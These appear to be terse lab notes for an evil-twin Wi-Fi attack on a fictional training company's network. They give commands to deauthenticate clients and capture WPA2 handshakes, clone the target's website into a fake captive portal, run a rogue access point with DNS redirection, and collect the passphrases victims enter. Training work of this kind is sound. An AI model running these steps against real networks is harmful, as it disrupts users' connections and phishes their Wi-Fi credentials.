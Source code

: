 ## Captive Portal
```text
sudo airodump-ng -w discovery --output-format pcap wlan0mon

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
00:0E:08:90:3A:5F  -75        3        0    0  11  130   WPA2 CCMP   PSK  MegaCorp One Lab
```

#deauth to capture handshakes on seperate terminal
```text
sudo aireplay-ng -0 0 -a 00:0E:08:90:3A:5F wlan0mon
```
grab handshake to use later


## Building the Captive Portal
```text
sudo apt install apache2 libapache2-mod-php
```

## recursive download for background images - this will download to www.megacorpone.com
```text
wget -r -l2 https://www.megacorpone.com
```
## copy data over to portal
```text
mkdir /var/www/html/portal/
sudo cp -r ./www.megacorpone.com/assets/ /var/www/html/portal/
sudo cp -r ./www.megacorpone.com/old-site/ /var/www/html/portal/
```
```text
nano /var/www/html/portal/index.php
nano /var/www/html/portal/login_check.php
nano /var/www/html/portal/login_check2.php
sudo chmod 644 *.php
```
```text
mkdir /data
sudo chown www-data:www-data /data
```

## network
```text
sudo ip addr add 192.168.87.1/24 dev wlan0
sudo ip link set wlan0 up
```
```text
sudo systemctl enable dnsmasq && sudo systemctl enable hostapd
sudo pkill dnsmasq
```
```text
sudo ufw allow in 53 tcp
sudo ufw allow in 53 udp
sudo ufw allow in 67 udp
```
```text
sudo dnsmasq --conf-file=/home/administrator/mco-dnsmasq.conf --test
sudo dnsmasq --conf-file=mco-dnsmasq.conf
##debugging
sudo dnsmasq --conf-file=/home/administrator/mco-dnsmasq.conf --log-debug -d
```
```text
sudo systemctl status dnsmasq.service
sudo netstat -lnp
sudo cat /var/log/dnsmasq.log
```

```text
sudo apt install nftables
sudo nft add table ip nat
sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'
sudo nft add rule ip nat PREROUTING iifname "wlan0" udp dport 53 counter redirect to :53
```
```text
sudo nft list table ip nat
table ip nat {
        chain PREROUTING {
                type nat hook prerouting priority dstnat; policy accept;
                iifname "wlan0" udp dport 53 counter packets 0 bytes 0 redirect to :53
        }
}
```


## Apache2
```text
nano etc/apache2/sites-enabled/000-default.conf
sudo a2enmod rewrite
sudo a2enmod alias
sudo a2enmod ssl
sudo systemctl restart apache2
```


## hostapd
```text
nano mco-hostapd.conf
sudo hostapd -B mco-hostapd.conf
```

sudo tail -f /var/log/apache2/access.log
sudo find /tmp/ -iname passphrase.txt




https://wiki.gentoo.org/wiki/Hostapd
